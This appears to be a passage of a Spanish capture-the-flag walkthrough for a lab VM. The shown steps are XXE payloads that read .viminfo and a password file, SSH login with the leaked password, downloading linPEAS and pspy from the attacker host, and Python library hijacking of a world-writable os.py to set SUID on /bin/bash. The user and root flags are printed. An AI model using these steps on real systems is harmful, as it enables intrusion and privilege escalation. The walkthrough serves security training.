<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///home/david/.viminfo'>]>
```

La respuesta devuelve una información muy interesante:

```text
# Password file Created:
'0  1  3  /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"
```

### Qué es `.viminfo`

`.viminfo` es un fichero de historial/configuración de **Vim**.

Puede contener:

- archivos recientes abiertos,
- historial de comandos,
- posiciones del cursor,
- búsquedas,
- referencias a rutas interesantes.

En este caso está revelando una ruta muy sensible:

`/usr/local/etc/mypass.txt`

Eso sugiere que David abrió o creó un archivo relacionado con contraseñas.

---

## 40. Lectura del archivo de contraseña

Ahora usamos esa ruta en el payload XXE:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///usr/local/etc/mypass.txt'>]>
```

La respuesta devuelve:

```text
h4ck3rd4v!d is already registered!
```

La parte importante es la contraseña:

**h4ck3rd4v!d**

### Conclusión

Acabamos de obtener la contraseña real del usuario **david**.

---

## 41. Acceso por SSH con la contraseña de David

Ahora sí probamos SSH, pero con password:

```bash
ssh david@192.168.1.43
```

Introducimos:

`h4ck3rd4v!d`

Y accedemos correctamente.

Salida:

```text
Linux system 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64
...
david@system:~$
```

### Qué significa esto

Ya tenemos una shell interactiva válida como el usuario `david`.

---

## 42. Obtención de la user flag

Una vez dentro:

```bash
whoami
ls
cat user.txt
```

Resultado:

```text
david
user.txt
79f3964a3a0f1a050761017111efffe0
```

La **user flag** es:

`79f3964a3a0f1a050761017111efffe0`

---

## 43. Nota sobre alternativa con Burp Intruder

Otra forma de haber hecho el fuzzing de rutas era usar **Burp Intruder**.

Proceso:

1. click derecho sobre la petición
2. **Send to Intruder**
3. marcar como posición de ataque la parte después de `/home/david/`
4. cargar el diccionario
5. lanzar el ataque
6. filtrar por `Length`

Es una alternativa totalmente válida.

---

## 44. Inicio de la escalada de privilegios

Ahora toca pasar de `david` a `root`.

Para ello lo primero es enumerar mejor el sistema.

---

## 45. Descarga y ejecución de linPEAS

Levantamos un servidor Python desde la Kali en la ruta donde está linPEAS:

```bash
cd /usr/share/peass/linpeas
python -m http.server 80
```

Después en la víctima:

```bash
wget http://192.168.1.42/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Qué es linPEAS

**linPEAS** es una herramienta de enumeración local para Linux.

Busca:

- permisos raros,
- binarios SUID,
- tareas programadas,
- credenciales,
- configuraciones débiles,
- rutas escribibles,
- librerías vulnerables,
- sudoers,
- servicios, etc.

### Resultado práctico aquí

No aporta una vía directa evidente, pero sí nos deja pistas.

---

## 46. Por qué mirar siempre `/opt`

En entornos Linux de laboratorio, la ruta `/opt` es muy interesante porque suele contener:

- software instalado manualmente,
- utilidades no nativas del sistema,
- scripts propios del administrador,
- programas externos o personalizados.

Eso la convierte en una ruta donde es relativamente frecuente encontrar:

- malas configuraciones,
- permisos débiles,
- scripts inseguros,
- automatizaciones peligrosas.

Nos movemos a:

```bash
cd /opt
ls
```

Y vemos:

```text
suid.py
```

---

## 47. Análisis inicial de `suid.py`

Comprobamos permisos:

```bash
ls -la
```

Resultado:

```text
-rw-r--r-- 1 root root 563 Apr  2  2022 suid.py
```

Solo tenemos permisos de lectura.

Hacemos `cat` al archivo y vemos su lógica.

### Qué hace el script

El script:

1. intenta abrir `/home/david/cmd.txt`
2. lee la primera línea
3. escribe esa línea en `/tmp/suid.txt`
4. comprueba si `/tmp/suid.txt` existe
5. si existe, intenta ejecutar:
   `chmod u+s /bin/bash`

Eso es interesantísimo, porque si consiguiera ejecutarse correctamente como root, convertiría `/bin/bash` en un binario con bit SUID.

---

## 48. Qué significa darle SUID a `/bin/bash`

El bit **SUID** en Linux hace que un binario se ejecute con el **UID del propietario** del archivo, no con el del usuario que lo lanza.

Si `/bin/bash` pertenece a root y tiene SUID, entonces al ejecutarlo de cierta forma podríamos obtener una shell con privilegios elevados.

Eso sería una vía directa a root.

---

## 49. Primer intento: crear `/tmp/suid.txt`

Como el script comprueba si existe `/tmp/suid.txt`, hacemos:

```bash
cd /tmp
touch suid.txt
```

Luego esperamos a que el script se ejecute por detrás y revisamos:

```bash
ls -la /bin/bash
```

Pero el bit SUID no aparece.

### Por qué falla

Analizando mejor el código, vemos que usa:

```python
from os import system
...
os.system("chmod u+s /bin/bash")
```

Aquí está el error clave:

- importa `system` directamente,
- pero luego llama a `os.system`,
- cuando `os` realmente no está importado.

Eso provoca un **NameError**.

Es decir:

- el flujo llega hasta ahí,
- pero falla antes de ejecutar el `chmod u+s /bin/bash`.

---

## 50. Necesitamos saber cómo se ejecuta `suid.py`

Ahora la pregunta es:

> ¿quién ejecuta ese script y cada cuánto?

Como no podemos verlo directamente, usamos **pspy64**.

---

## 51. Qué es pspy64

**pspy** es una herramienta que permite observar procesos y tareas programadas sin ser root.

Es muy útil para detectar:

- cron jobs,
- scripts automáticos,
- binarios que se ejecutan periódicamente,
- procesos lanzados por root,
- tareas en segundo plano que de otro modo no veríamos.

Descargamos `pspy64` en Kali y lo servimos por HTTP:

```bash
python3 -m http.server 80
```

En la víctima:

```bash
wget http://192.168.1.42/pspy64
chmod +x pspy64
./pspy64
```

Esperamos un poco y observamos la salida.

---

## 52. Descubrimiento de la tarea automática

Finalmente aparece:

```text
CMD: UID=0 PID=19238 | /bin/sh -c /usr/bin/python3.9 /opt/suid.py
```

### Qué significa esto

Esto confirma que:

- hay una tarea automática,
- se ejecuta como **UID 0** (root),
- y lanza:

```bash
/usr/bin/python3.9 /opt/suid.py
```

Es decir:

> `suid.py` se ejecuta periódicamente como root.

Eso es justo lo que necesitábamos saber.

---

## 53. Nueva estrategia: Library Hijacking en Python

Ya vimos que no podemos modificar `suid.py`.

Pero sí podemos revisar si alguna librería que usa es escribible.

linPEAS nos daba una pista muy importante:

```bash
ls -la /usr/lib/python3.9/os.py
```

Resultado:

```text
-rw-rw-rw- 1 root root 39063 Apr  2  2022 /usr/lib/python3.9/os.py
```

### Por qué esto es gravísimo

Ese archivo pertenece a root, pero tiene permisos:

`rw-rw-rw-`

Eso significa:

- root puede leer y escribir
- grupo puede leer y escribir
- **cualquier usuario también puede leer y escribir**

Es decir:

> podemos modificar la librería `os.py` del sistema.

Y como `suid.py` se ejecuta como root y usa esa librería, tenemos una vía clarísima.

---

## 54. Explicación conceptual de Library Hijacking

**Library Hijacking** consiste en abusar de que un programa cargue una librería que nosotros hemos modificado o controlamos.

La idea es:

- el programa confía en una librería,
- esa librería es cargada automáticamente,
- nosotros metemos código malicioso dentro,
- y el programa lo ejecuta al importar la librería.

Aquí no estamos cambiando el script principal.

Estamos cambiando una dependencia que ese script usa.

Y como el script corre como root, nuestro código también correrá como root.

---

## 55. Modificación de `os.py`

Editamos la librería:

```bash
nano /usr/lib/python3.9/os.py
```

Y al final añadimos:

```python
import os
os.system('chmod u+s /bin/bash')
```

### Qué hace este código

- importa el propio módulo `os`
- ejecuta:
  `chmod u+s /bin/bash`

Con eso conseguimos que, la próxima vez que root ejecute un programa que cargue esa librería, se aplique el bit SUID a `/bin/bash`.

---

## 56. Espera a la ejecución automática del script

Como ya sabemos gracias a pspy que `/opt/suid.py` se ejecuta periódicamente como root, ahora solo toca esperar.

Tras un rato comprobamos:

```bash
ls -la /bin/bash
```

Y ahora sí aparece:

```text
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
```

### Qué cambió exactamente

Antes era algo como:

`-rwxr-xr-x`

Ahora es:

`-rwsr-xr-x`

La `s` en lugar de `x` en la parte del propietario indica que el bit **SUID** ya está activado.

---

## 57. Explotación del binario con SUID

Ahora lanzamos:

```bash
bash -p
```

### Qué hace `bash -p`

La opción `-p` le dice a bash que mantenga privilegios efectivos y no los descarte.

Eso es importante cuando bash se está ejecutando desde un binario con SUID.

Resultado:

```text
bash-5.1# whoami
root
```

Ya somos root.

---

## 58. Obtención de la root flag

Nos movemos a `/root`:

```bash
cd /root
ls
cat root.txt
```

Resultado:

```text
3aa26937ecfcc6f2ba466c14c89b92c4
```

La **root flag** es:

`3aa26937ecfcc6f2ba466c14c89b92c4`

---

## 59. Máquina completada

Con esto la máquina queda resuelta.


---

## 60. Resumen final del chain de ataque

El recorrido completo fue:

1. Configurar la víctima en VirtualBox y Kali en VMware con **adaptador puente**.
2. Descubrir la IP de la víctima por **OUI/MAC de VirtualBox**.
3. Enumerar puertos y detectar:
   - **SSH**
   - **HTTP**
4. Analizar la web y capturar la petición con **Burp Suite**.
5. Descubrir que la aplicación envía datos en **XML**.
6. Identificar una **vulnerabilidad XXE**.
7. Leer `/etc/passwd` y descubrir al usuario **david**.
8. Leer archivos del home de David con XXE.
9. Encontrar en `.viminfo` la ruta a un archivo de contraseña.
10. Leer `/usr/local/etc/mypass.txt`.
11. Obtener la contraseña:
    `h4ck3rd4v!d`
12. Acceder por **SSH** como `david`.
13. Obtener la **user flag**.
14. Enumerar localmente con **linPEAS**.
15. Revisar `/opt` y detectar `suid.py`.
16. Ver con **pspy64** que se ejecuta periódicamente como root.
17. Detectar que `os.py` es **world-writable**.
18. Hacer **Library Hijacking** de `os.py`.
19. Conseguir que se aplique **SUID a `/bin/bash`**.
20. Ejecutar `bash -p`.
21. Obtener root.
22. Leer la **root flag**.

---

## 61. Conceptos clave aprendidos en esta máquina

Esta máquina es muy buena para practicar y entender a fondo estos conceptos:

- diferencias entre **NAT** y **Bridge**
- identificación de VMs por **MAC/OUI**
- enumeración inicial con **Nmap**
- análisis web básico
- captura y manipulación de peticiones con **Burp Suite**
- estructura y procesamiento de **XML**
- vulnerabilidad **XXE**
- lectura arbitraria de archivos
- enumeración de homes de usuarios
- uso práctico de **ffuf** con payloads POST personalizados
- valor ofensivo de `.viminfo`
- acceso inicial por **SSH**
- enumeración local con **linPEAS**
- monitorización de procesos con **pspy**
- **Library Hijacking** en Python
- abuso del bit **SUID**
- elevación de privilegios con `bash -p`

---

## 62. Flags finales

### User flag
```text
79f3964a3a0f1a050761017111efffe0
```

### Root flag
```text
3aa26937ecfcc6f2ba466c14c89b92c4
```
